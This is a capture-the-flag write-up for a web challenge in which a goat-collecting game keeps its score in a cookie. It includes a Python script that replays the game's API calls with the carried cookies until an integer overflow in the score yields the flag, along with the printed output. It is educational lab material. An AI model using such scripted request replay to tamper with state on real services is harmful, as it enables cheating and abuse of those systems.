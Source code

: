 # Description
R-Boy arrives in the Web Realm, a celestial domain comprised of floating islands in the digital sky. These highly interconnected islands create an intricate network resembling a spider's web. Here, energy flows swiftly, and R-Boy senses a strange energy.
http://gamebox1.reply.it/web1-f1103cad4b0542c69e23b267e173799295c4f217/
# Write-up

Loading up burp and browsing to the given URL, we can observe a game where we move sideways to collect goats. Each red goat is -2000 points, each green goat is +2000 points.
Goal is to obtain at least 65536 points, which is already a good hint that this might have something to do with 16bit int overflows.
![](./Images/goat_game.png)


Burp reveals the API requests for each type of goat.
![](./Images/red.png)![](./Images/green.png)

Important to note that there are positive and negative scores contributing to the total score, and that the current score status is kept in the cookie.

Just trying to collect green goats from calling the API directly reveals an int underflow on the negative score, so we can combine both scores to reach a higher value. We reach the maximum value possible for the positive score, and keep collecting red goats until the value underflows and becomes positive, scoring us the flag:

```
import requests
import time

s = requests.Session()
goat = {'type': 'green'}
x = requests.post('http://gamebox1.reply.it/web1-f1103cad4b0542c69e23b267e173799295c4f217/got-a-goat', data = goat)

for i in range(32):
    x = requests.post('http://gamebox1.reply.it/web1-f1103cad4b0542c69e23b267e173799295c4f217/got-a-goat', data = goat, cookies=x.cookies.get_dict())
    print(x.content)
    time.sleep(2)

goat = {'type': 'red'}
for i in range(36):
    x = requests.post('http://gamebox1.reply.it/web1-f1103cad4b0542c69e23b267e173799295c4f217/got-a-goat', data = goat, cookies=x.cookies.get_dict())
    print(x.content)
    time.sleep(2)
```

```
...
b'{"negative_score":62000,"positive_score":64000,"total_score":2000}\n'
b'{"negative_score":64000,"positive_score":64000,"total_score":0}\n'
b'{"negative_score":66000,"positive_score":64000,"total_score":"{FLG:y0U-aT3_700-mUch_B4D_GO4T}"}\n'
```